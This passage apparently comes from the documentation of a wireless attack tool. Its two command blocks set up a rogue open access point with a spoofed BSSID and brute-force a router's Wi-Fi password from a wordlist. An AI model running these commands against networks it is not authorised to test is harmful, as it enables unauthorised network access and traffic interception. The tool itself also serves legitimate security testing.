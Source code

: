 ```
> set wifi.ap.ssid Banana
> set wifi.ap.bssid DE:AD:BE:EF:DE:AD
> set wifi.ap.channel 5
> set wifi.ap.encryption false
> wifi.recon on; wifi.ap
```

Bruteforce using a wordlist:

```
> set wifi.interface en0
> set wifi.bruteforce.target TargetRouter
> set wifi.bruteforce.wordlist /path/to/your/wordlist.txt
> set wifi.bruteforce.stop_at_first true
> wifi.bruteforce on
```
